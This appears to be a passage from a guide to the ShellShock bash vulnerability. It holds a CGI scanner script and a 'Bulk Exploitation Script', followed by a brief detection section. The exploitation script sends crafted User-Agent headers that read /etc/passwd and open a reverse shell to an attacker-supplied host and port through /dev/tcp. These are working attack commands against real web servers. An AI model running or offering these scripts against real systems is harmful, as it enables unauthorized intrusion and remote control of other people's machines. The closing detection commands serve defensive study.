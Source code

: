 ```bash
#!/bin/bash
# shellshock_scanner.sh
TARGET=$1
CGI_PATHS=("/cgi-bin/test.cgi" "/cgi-bin/status.cgi" "/cgi-bin/admin.cgi" "/gettime.cgi")

echo "[*] Scanning $TARGET for ShellShock vulnerability"

for path in "${CGI_PATHS[@]}"; do
    echo "[*] Testing $path"
    response=$(curl -s -H "User-Agent: () { :; }; echo; echo; echo VULNERABLE" "http://$TARGET$path")
    if echo "$response" | grep -q "VULNERABLE"; then
        echo "[+] VULNERABLE: $TARGET$path"
        echo "$TARGET$path" >> vulnerable_hosts.txt
    fi
done
```

### Bulk Exploitation Script

```bash
#!/bin/bash
# shellshock_exploit.sh
TARGET=$1
CGI_PATH=$2
LHOST=$3
LPORT=$4

echo "[*] Exploiting ShellShock on $TARGET"

# Test vulnerability
curl -H "User-Agent: () { :; }; echo; echo; /bin/cat /etc/passwd" "http://$TARGET$CGI_PATH"

# Send reverse shell
curl -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1" "http://$TARGET$CGI_PATH" &
```

## Defense and Mitigation

### Detection Methods

```bash
# Check Bash version
bash --version

# Test for vulnerability
env x='() { :;}; echo vulnerable' bash -c "echo test"

# Monitor web logs for exploitation attempts
grep -r "() { :; }" /var/log/apache2/
```
